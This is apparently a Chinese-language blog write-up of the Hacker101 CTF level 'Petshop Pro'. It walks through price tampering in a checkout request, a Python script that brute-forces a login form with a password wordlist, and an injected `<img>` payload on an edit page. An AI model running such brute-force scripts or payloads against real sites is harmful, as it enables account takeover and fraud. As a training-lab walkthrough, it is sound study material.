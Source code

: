 ```yaml
---
title: "Pets Shop Pro"
date: 2019-12-04T16:40:15+08:00
draft: false
tags: ["security","hacker", "ctf"]
categories: ["security"]
---
```


# 第十关 Petshop Pro

进去逛一逛，看起来是一个买宠物照片的网站？

目测能访问的路径有:

```

GET /
GET /add/0
GET /add/1
GET /cart
POST /checkout  data="cart=xxx"
```

### flag1

试了下`GET /add/0'`,NOT FOUND，没有注入点。

能输入的地方看起来就只有POST那里，burpsuite那里看了下数据格式

![10-1](./10-1.png)

应该是常规的url encode，解码看一下。

![10-2](./10-2.png)

传这么多数据干嘛？试试少几个字段会怎样，发现只有name和price是可用的，而且返回的结果和这个有关。
尝试把price都改成0。第一个flag就出来了。

![10-3](./10-3.png)

### flag2

剩下几个api也没找到什么问题，后来看了下hint。`There must be a way to administer the app`，这是在让我尝试找登录点嘛。

于是我试了下`/login`，果然有登录界面

![10-4](./10-4.png)

试了下注入，弱密码，都没有成功。再看了下hint。`Tools may help you find the entrypoint`，是要工具爆破嘛？

但是因为自己的burpsuite是社区版，爆破只能一个线程，那还不如手动写呢。

```python

# coding: utf-8
import requests
import re

def login(username, password):
    url = "http://34.94.3.143/236507f627/login"
    data = {
        "username": username,
        "password": password
    }
    r = requests.post(url, data=data)
    text = r.text
    if re.search('Invalid username', text):
        return "{} error".format(username), False
    elif re.search('Invalid password', text):
        return "{} error".format(password), False
    else:
        return username, password


if __name__ == '__main__':
    with open("password.txt") as f:
        for line in f:
            username = "rubina" # line.strip()
            password = line.strip()
            res = login(username, password)
            print(res)
            if res[1]:
                break
```

字典从github下载就行了。

这个也是单线程，但是将就能用~先跑username，睡个午觉起来发现跑出来了`username=rubina`

最后碍于效率，还是装了个专业版的burp，开100个线程太爽了。

最后跑出了结果`password=public`

![10-5](./10-5.png)

登录后第二个flag也有了。

![10-6](./10-6.png)

### flag3

登陆之后多了一个`/edit?id=0`页面，分别试了一下xss和注入，都没出flag。
各种尝试无果，
看了下hint，`Bugs don't always appear in a place where the data is entered`。有点像csrf哦。

构造payload`<img src="http://xxx/add/2">`，然后访问`http://xxx/cart`，get it~


![10-7](./10-7.png)


